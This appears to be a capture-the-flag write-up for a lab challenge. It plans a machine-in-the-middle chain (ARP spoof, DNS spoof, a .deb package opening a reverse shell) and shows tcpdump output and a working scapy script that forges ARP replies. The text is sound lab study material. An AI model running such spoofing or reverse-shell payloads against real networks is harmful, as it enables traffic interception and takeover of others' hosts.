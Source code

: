 `Jack Frost must have gotten malware on our host at 10.6.6.35 because we can no longer access it. Try sniffing the eth0 interface using tcpdump -nni eth0 to see if you can view any traffic from that host.`

`The host is performing an ARP request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in /home/guest/scripts.`

`Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof. Let's return a DNS response resolving the request to our IP.`

`The malware on the host does an HTTP request for a .deb package. Maybe we can get command line access by sending it a command in a customized .deb file`

* so, the attack-chain looks like
1. Spoof the IP within the ARP-Response
2. Spoof the IP within the DNS-Response
3. Resolve the request to my own address
4. craft and provide via http a deb package so that it opens a reverse shell to my host
5. fetch the requestet file to solve the challenge


* fetch the ARP-Requests
  
```bash
guest@9573ea0dd8d1:~$ tcpdump -nni eth0
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
15:01:09.517331 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```
* modify the existing arp-spoofing-script

```python
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

def handle_arp_packets(packet):
    
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)
        
        arp_response = ARP(pdst=packet[Ether].psrc)
        arp_response.op = 2
        arp_response.plen = 4
        arp_response.hwlen = 6
        arp_response.ptype =  0x0800 
        arp_response.hwtype = 0x1        
        arp_response.hwsrc = macaddr        
        arp_response.psrc = '10.6.6.53'
        arp_response.hwdst = packet[ARP].hwsrc
        arp_response.pdst = packet[ARP].psrc        
        response = ether_resp/arp_response        
        sendp(response, iface="eth0")
        

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

```